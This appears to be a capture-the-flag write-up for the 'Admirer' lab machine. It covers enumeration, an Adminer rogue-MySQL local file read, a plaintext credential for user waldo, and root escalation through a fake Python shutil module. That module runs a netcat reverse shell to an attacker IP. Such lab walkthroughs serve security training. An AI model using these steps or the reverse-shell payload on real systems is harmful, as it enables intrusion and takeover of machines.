

# admirer

## nmap

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Admirer
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


## httpenum

we got one disallow in robot.txt lets enumerate it


we dont have permission to access the resources


## wfuzz

using gobuster to check any subdirectory we can access


### files found

- contacts.txt
- credentials.txt

### creds


## ftp

since we ftp is open lets try to login to ftp to see ip we can find anything

successfully logged in with those credentials. 




found 2 interesting files lets check them


### tar

```bash
tar -C html/ -xvf html.tar
```

will extract in new folder


found new credentials inside folder utility-scripts but not sure what service it is for


## wfuzz

as we can see it says forbidden which this subdirectory is present but accessible so lets try to use gobuster or wfuzz to enumerate it


### adminer


found adminer.php lets see what is it

## exploit

1. start mysql service

```bash
service mysql start
```


2. configure new mysql database

### configure mysql

```mariadb
create database adminer;
create user 'demo' @ '%' identified by 'demo_adminer';
grant all privileges on *.* to 'demo' @ '%';
flush privileges;
use adminer;
create table test(data varchar(255));
```


### bind mysql to 0.0.0.0

- this will make it listen to any incoming connection requesting for its service.

````bash
sudo vim /etc/mysql/mariadb.conf.d/50-server.cnf
````


now restart the service

```bash
sudo service mysql stop
sudo service mysql start
```


[adminer attack tutorial](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)

logged into adminer with our credentials


### vulnerability 

there is a local file inclusion vulnerability in adminer


### lfi

successful execution of lfi

```mariadb
load data local infile '../index.php'
into table test
fields terminated by "/n"
```


### creds


found new credentials of waldo

waldo	:	&<h5b~yK3F#{PaPB&dA}{H>


## ssh


## post

sudo -l


we can run admin_tasks.sh as root

### analysis

- after analyzing admin_task.sh
- backup.py
- we see it invokes backup.py for webcontents and run it as root
- we know backup.py imports shutil
- need to change its default path so that we can give it fake shutil library which spawns as shell

### nc

create a custom python module in tmp folder

```python
#!/usr/bin/env python
import os
os.system("nc 10.10.14.60 5555 -e /bin/bash")
```

changed default path of python modules by

```bash
sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh
```


